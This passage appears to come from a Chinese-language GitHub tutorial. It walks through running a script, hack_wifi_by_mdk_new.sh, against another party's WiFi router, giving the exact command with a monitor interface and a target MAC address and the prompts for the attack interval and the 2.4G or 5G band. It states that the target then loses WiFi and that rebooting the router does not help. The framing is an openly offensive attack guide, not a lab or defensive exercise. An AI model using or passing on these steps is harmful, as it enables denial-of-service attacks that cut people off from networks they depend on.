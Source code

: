 9. 运行脚本开启自动化攻击
[注意网卡的名字，和上一步扫描出来的WiFi的MAC地址  ，，别写错了]
```shell
bash hack_wifi_by_mdk_new.sh wlan0mon 02:3A:7C:6A:83:DB
```
![img_45.png](image/img_45.png)

10. 这里输入的是探测对方路由器是否重启的间隔时间 [推荐 300 秒，，就是每5分钟探测一次对方路由器是否重启过，也可以自定义你喜欢的时间，<font color=#FF0000>但是建议必须大于60秒效果才好</font>]
 ******************************************************
How long do you want zhe hack WIFI inervel time [sec]:

![img_46.png](image/img_46.png)
 ******************************************************

11. 这里看你攻击的WiFi是2.4G还是5G，对应选择就行了【注意：5G需要支持5G的网卡，如8812au】
 ******************************************************
Select one type what you want to hack
 ************************************
1.        2.4G                              *
2.        5G                                 *
 ************************************
Please select: 1

![img_47.png](image/img_47.png)
 ******************************************************

12. 到这里自动攻击就开始了，对方直接不能用WiFi了【重启路由器**也没用**】  ......
